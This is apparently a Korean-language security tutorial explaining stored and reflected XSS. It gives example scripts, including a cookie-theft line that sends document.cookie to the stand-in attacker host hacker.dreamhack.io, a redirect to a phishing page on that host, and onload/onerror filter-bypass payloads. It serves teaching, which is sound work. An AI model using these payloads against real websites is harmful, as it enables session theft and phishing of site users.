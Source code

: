## XSS

클라이언트 사이드 취약점 중 하나로, 공격자가 웹 리소스에 악성 스크립트를 삽입해 이용자의 웹 브라우저에 해당 스크립트를 실행할 수 있습니다. 공격자는 해당 취약점을 통해 특정 계정의 세션 정보를 탈취하고 해당 계정으로 임의 기능을 수행할 수 있습니다.
대표적으로 Stored XSS와 Reflected XSS가 있습니다.

<img src="https://velog.velcdn.com/images/silvergun8291/post/3f2faccd-2571-46bf-a3ca-1eba7980daae/image.png">

<br>

## Stored XSS

Stored XSS는 서버의 데이터베이스 또는 파일 등의 형태로 저장된 악성 스크립트를 조회할 때 발생하는 XSS입니다. 대표적으로 게시물과 댓글에 악성 스크립트를 포함해 업로드하는 방식이 있습니다.

<br>

## Reflected XSS

Reflected XSS는 서버가 악성 스크립트가 담긴 요청을 출력할 때 발생합니다. 대표적으로 검색창에서 스크립트를 포함해 검색하는 방식이 있습니다.
Reflected XSS는 Stored XSS와는 다르게 URL과 같은 이용자의 요청에 의해 발생하기 때문에, 타 이용자가 악성 스크립트가 포함된 링크에 접속하도록 유도해야 합니다.

<br>

## XSS 스크립트의 예시

#### 쿠키 및 세션 탈취 공격 코드

```javascript
<script>
// "hello" 문자열 alert 실행.
alert("hello");
// 현재 페이지의 쿠키(return type: string)
document.cookie; 
// 현재 페이지의 쿠키를 인자로 가진 alert 실행.
alert(document.cookie);
// 쿠키 생성(key: name, value: test)
document.cookie = "name=test;";
// new Image() 는 이미지를 생성하는 함수이며, src는 이미지의 주소를 지정. 공격자 주소는 http://hacker.dreamhack.io
// "http://hacker.dreamhack.io/?cookie=현재페이지의쿠키" 주소를 요청하기 때문에 공격자 주소로 현재 페이지의 쿠키 요청함
new Image().src = "http://hacker.dreamhack.io/?cookie=" + document.cookie;
</script>
```

#

#### 페이지 변조 공격 코드

```javascript
<script>
// 이용자의 페이지 정보에 접근.
document;
// 이용자의 페이지에 데이터를 삽입.
document.write("Hacked By DreamHack !");
</script>
```

#

#### 위치 이동 공격 코드

```javascript
<script>
// 이용자의 위치를 변경.
// 피싱 공격 등으로 사용됨.
location.href = "http://hacker.dreamhack.io/phishing"; 
// 새 창 열기
window.open("http://hacker.dreamhack.io/")
</script>
```

<br>


## XSS 필터링 우회

여러 방법중에 이벤트 핸들러 속성을 이용한 방법을 알아보면

### onload 이벤트 핸들러

해당 태그가 요청하는 데이터 로드에 성공하면 이벤트 핸들러를 실행합니다.

```html
<img src="https://dreamhack.io/valid.jpg" onload="alert(document.domain)">
```

데이터 로드가 성공하도록 유도해서 뒤에 코드를 실행시킬 수 있습니다.

#

### onerror 이벤트 핸들러

해당 태그가 요청하는 테이터 로드가 실패하면 이벤트 핸들러를 실행합니다.

```html
<img src="valid.jpg" onerror="alert(document.domain)">
```

데이터 로드가 실패하도록 유도해서 뒤에 코드를 실행시킬 수 있습니다.
